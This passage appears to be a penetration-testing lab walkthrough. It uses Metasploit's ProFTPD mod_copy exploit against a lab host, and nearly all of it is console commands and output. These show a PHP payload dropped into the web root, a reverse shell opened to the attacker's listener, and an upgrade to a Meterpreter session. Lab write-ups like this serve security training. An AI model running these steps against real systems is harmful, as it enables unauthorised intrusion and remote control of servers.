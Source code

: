 Noting much to find in here let’s start with ftp by search for the vulnerability with the help of MSF console. and we need to set site path to `var/www/html` because of root directory of the website is located in there.

```bash
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set rhost target1.ine.local
rhost => target1.ine.local
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set lhost 192.131.172.2
lhost => 192.131.172.2
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html
sitepath => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.131.172.2:4444 
[*] 192.131.172.3:80 - 192.131.172.3:21 - Connected to FTP server
[*] 192.131.172.3:80 - 192.131.172.3:21 - Sending copy commands to FTP server
[*] 192.131.172.3:80 - Executing PHP payload /Fad5Zni.php
[-] 192.131.172.3:80 - Unable to delete /var/www/html/Fad5Zni.php
[*] Command shell session 1 opened (192.131.172.2:4444 -> 192.131.172.3:45816) at 2025-05-31 20:42:12 +0530
[-] 192.131.172.3:80 - Exploit aborted due to failure: unknown: 192.131.172.3:21 - Failure executing payload
[!] 192.131.172.3:80 - This exploit may require manual cleanup of '/var/www/html/Fad5Zni.php' on the target
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.131.172.2:4444 -> 192.131.172.3:45816 (192.131.172.3)

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.131.172.2:4433 
[*] Sending stage (1017704 bytes) to 192.131.172.3
[*] Meterpreter session 2 opened (192.131.172.2:4433 -> 192.131.172.3:51648) at 2025-05-31 20:42:59 +0530
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions

Active sessions
===============

  Id  Name  Type                   Information                   Connection
  --  ----  ----                   -----------                   ----------
  1         shell cmd/unix                                       192.131.172.2:4444 -> 192.131.172.3:45816 (192.131.172.3)
  2         meterpreter x86/linux  www-data @ target1.ine.local  192.131.172.2:4433 -> 192.131.172.3:51648 (192.131.172.3)
  
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : target1.ine.local
OS           : Ubuntu 20.04 (Linux 6.8.0-40-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
```